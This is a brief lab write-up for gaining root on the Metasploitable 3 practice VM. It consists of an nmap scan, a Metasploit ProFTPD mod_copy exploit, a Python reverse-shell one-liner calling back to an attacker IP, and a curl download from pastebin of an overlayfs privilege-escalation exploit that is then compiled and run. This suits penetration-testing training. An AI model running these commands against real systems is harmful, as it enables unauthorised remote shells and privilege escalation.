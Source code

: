 # Metsploitable 3 Writeup

QUICKEST ROOT SHELL :)

## Recon

```bash
nmap -sV 192.168.100.231
```

## Exploitation

### ProFTPD

Using the following exploit:

```bash
use exploit unix/ftp/proftpd_modcopy/exec
```

Getting better shell:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Getting root shell:

1. Upload overlayfs_exploit.c to pastebin.com
2. Download on target system using wget or curl & save into file
3. GCC compile the C exploit and gain root shell

```bash
curl https://pastebin.com/raw/LTADWAas > over.c
gcc over.c -o over
./over
id
```

